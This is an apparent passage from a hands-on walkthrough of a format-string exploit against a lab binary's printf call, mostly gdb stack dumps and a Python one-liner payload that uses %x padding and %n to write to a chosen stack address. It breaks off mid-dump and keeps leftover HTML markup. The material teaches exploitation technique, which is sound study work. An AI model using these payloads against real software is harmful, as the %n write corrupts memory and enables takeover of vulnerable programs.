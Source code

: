 <span class="hljs-number">0xffffd974</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>
<span class="hljs-number">0xffffd984</span>:     <span class="hljs-number">0x35343331</span>      <span class="hljs-number">0x33323431</span>      <span class="hljs-number">0x6e257834</span>      <span class="hljs-number">0x0000000a</span>
<span class="hljs-number">0xffffd994</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9a4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9b4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
</code></pre>

<p>You see what I was talking about now? May be it’s still not intuitive, let’s examine what are those stuff on stack.</p>
<pre class="prettyprint"><code class="language-gdb hljs perl">(gdb) <span class="hljs-keyword">x</span>/<span class="hljs-keyword">s</span> <span class="hljs-number">0xffffd95e</span>
<span class="hljs-number">0xffffd95e</span>:     <span class="hljs-string">"You said:    4\332\377\377<span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%%</span>n\n"</span></code></pre>

<p>Note the <code>0x20</code> is the ASCII code for space. Look at the place where our desired address appears. </p>
<p><code>0xffda3420      0x257825ff</code></p>
<p>It is broken by that one extra <code>0x20</code>, and there is no way we can interpret from a odd address, and since we can not delete that extra <code>0x20</code>, our only chance is to append our input with some junks to push the desired address back. </p>

<pre class="prettyprint"><code class="language-gdb hljs applescript">(gdb) <span class="hljs-command">run</span> $(python -c 'print <span class="hljs-string">"AAA\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%x"</span>+<span class="hljs-string">"%n"</span>')
The program being debugged has been started already.
Start <span class="hljs-keyword">it</span> <span class="hljs-keyword">from</span> <span class="hljs-keyword">the</span> <span class="hljs-keyword">beginning</span>? (y <span class="hljs-keyword">or</span> n) y
Starting program: /c0re/attackformat $(python -c 'print <span class="hljs-string">"\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%x"</span>+<span class="hljs-string">"%n"</span>')
(gdb) cont
Continuing.
Hi! Welcome <span class="hljs-keyword">to</span> <span class="hljs-keyword">the</span> HALL-E function.

Breakpoint <span class="hljs-number">2</span>, <span class="hljs-number">0x08048707</span> <span class="hljs-keyword">in</span> hall_e (
    fmt=<span class="hljs-number">0xffffdc42</span> <span class="hljs-string">"AAA\332\377\377%x%x%x%x%x%x%x%x%x%x%n"</span>)
    <span class="hljs-keyword">at</span> format.c:<span class="hljs-number">25</span>
<span class="hljs-number">25</span>              printf (buf);
(gdb) x/<span class="hljs-number">32</span>x $esp
<span class="hljs-number">0xffffd944</span>:     <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0x000000c9</span>      <span class="hljs-number">0x080487aa</span>
<span class="hljs-number">0xffffd954</span>:     <span class="hljs-number">0xffffdc42</span>      <span class="hljs-number">0x080487fc</span>      <span class="hljs-number">0x6f590000</span>      <span class="hljs-number">0x61732075</span>